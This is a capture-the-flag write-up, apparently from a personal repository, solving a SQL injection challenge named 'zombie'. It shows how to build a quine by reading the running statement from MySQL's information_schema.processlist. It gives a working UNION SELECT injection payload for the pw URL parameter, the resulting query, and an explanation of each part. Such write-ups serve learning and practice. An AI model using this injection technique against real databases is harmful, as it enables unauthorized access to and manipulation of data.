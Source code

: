 ```yaml
---
custom_edit_url: null
sidebar_position: 31
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/619f9f68-e38d-47a0-a15b-ff662242c83b)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_zombie WHERE pw='{$_GET[pw]}'
```

Similar to [ouroboros], in this challenge, we have to use a Quine in order to solve it.
However, since `ace` is being filtered out, we have to find another way of crafting our Quine.

&nbsp;

## `information_schema.processlist` table

As noted by [this documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html), in MySQL, the `information_schema.processlist` is one source of process information which indicates the operations currently being performed by the set of threads executing within the server.

### `info` column

Within this table, the `info` column contains the statement that is being executed as show below.

![3](https://github.com/Kunull/Write-ups/assets/110326359/883c41a1-9cb1-4b55-98b3-641f02529310)

```sql
SELECT info FROM information_schema.processlist
```

Since the above query is being executed, the value present in the `info` column of `information_schema.processlist` would be:

```
+-------------------------------------------------+
| info                                            |
+-------------------------------------------------+
| SELECT info FROM information_schema.processlist |
+-------------------------------------------------+
```

As we can see, the SQL query outputs itself, thus acting as a Quine.

&nbsp;

## Modified Quine

```sql
1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

- **`substr(info,locate('1',info),length(info)-locate('1',info))`**:
    - `locate('1', info)` finds the position of the first occurrence of the character `'1'` in the `info` column.
    - `length(info)` gives the total length of the `info` column's content.
    - `length(info)-locate('1',info)` calculates the length of the substring starting from the first occurrence of `'1'` to the end of the `info` content.
    - `substr(info, locate('1', info), length(info) - locate('1', info))` extracts this substring.
- **`from information_schema.processlist`**:   
    - This specifies the table from which the data is being selected. The `information_schema.processlist` table contains information about the currently running processes in the MySQL database server.

If we provide the following URI parameter:

```
?pw=1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

The resultant query becomes:

```sql
SELECT pw FROM prob_zombie WHERE pw='1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist #'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/606cc988-e99e-4db2-90fc-25387e44ccc7)
